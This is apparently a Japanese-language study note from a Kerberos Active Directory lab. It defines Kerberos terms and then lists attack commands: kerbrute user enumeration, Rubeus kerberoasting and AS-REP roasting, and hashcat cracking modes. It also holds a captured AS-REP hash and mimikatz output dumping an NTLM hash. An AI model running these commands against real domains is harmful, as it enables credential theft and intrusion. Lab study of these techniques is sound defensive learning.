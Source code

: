 # keywords
- Ticket Granting Ticket (TGT)
  - 自分の証明書

- Key Distribution Center (KDC)
  - 親玉
  - AS,TGSで構成

- Authentication Service (AS) 
  - 認証するとこ
  - TGT発行

- Ticket Granting Service (TGS)
  - TGTで認証
  - サービスアクセス用のチケット生成 


# enum
- kerbrute
  - url
    - https://github.com/ropnop/kerbrute/releases
  - user
    - https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt
```
chmod +x kerbrute

./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```


# Rybeus
- https://github.com/GhostPack/Rubeus
- Rubeus.exe harvest /interval:30
- Rubeus.exe brute /password:Password1 /noticket
- Rubeus.exe kerberoast
- hashcat -m 13100 -a 0 hash.txt Pass.txt
- Rubeus.exe asreproast
- hashcat -m 18200 hash.txt Pass.txt
```
$krb5asrep$User3@CONTROLLER.local:2342597609456C385E4CB4425B8C9891$7FB3FDFCD80AE80181885115ADEAB8ED9A49D7B75EE041AD8E9B521B22322588004EB4C5544EAD22B563A67E803E9B21CB65B4827DCB306C1F1983CAF28108405BDB5F0F9862A6F2E7924A7895BF9F541A29745757BF5F5870FF56FF129765E55F7FEB2BC93BDB648B840494C1F0360701C0B4AA538C37A29E54002394E8C8E7708B68BDD690BE64807E1B78B50F9F911FD504C30895620FF648DB185E42B3C923094BBB154A8FBB0564F20667E9B26FED62D4E6D59A9B7613787BBA99B4C6ABFB3B7215E46B02B3724BCE92C0B74D70309CA52A5D16972BAA601C0CAF802E1FD671D397AAA68EA892A2717E5CC355B686459A44

add 23$
$krb5asrep$23$User3@CONTROLLER.local:2342597609456C385E4CB4425B8C9891$7FB3FDFCD80AE80181885115ADEAB8ED9A49D7B75EE041AD8E9B521B22322588004EB4C5544EAD22B563A67E803E9B21CB65B4827DCB306C1F1983CAF28108405BDB5F0F9862A6F2E7924A7895BF9F541A29745757BF5F5870FF56FF129765E55F7FEB2BC93BDB648B840494C1F0360701C0B4AA538C37A29E54002394E8C8E7708B68BDD690BE64807E1B78B50F9F911FD504C30895620FF648DB185E42B3C923094BBB154A8FBB0564F20667E9B26FED62D4E6D59A9B7613787BBA99B4C6ABFB3B7215E46B02B3724BCE92C0B74D70309CA52A5D16972BAA601C0CAF802E1FD671D397AAA68EA892A2717E5CC355B686459A44
```

```
C:\Users\Administrator\Downloads>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /inject /name:admin2
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860

RID  : 00000452 (1106)
User : admin2

 * Primary
    NTLM : 46315f382d8f389408872bfd27dcdfd4
    LM   :
  Hash NTLM: 46315f382d8f389408872bfd27dcdfd4
    ntlm- 0: 46315f382d8f389408872bfd27dcdfd4
    lm  - 0: 08115aec81894059fa20406c047a5fa2
```

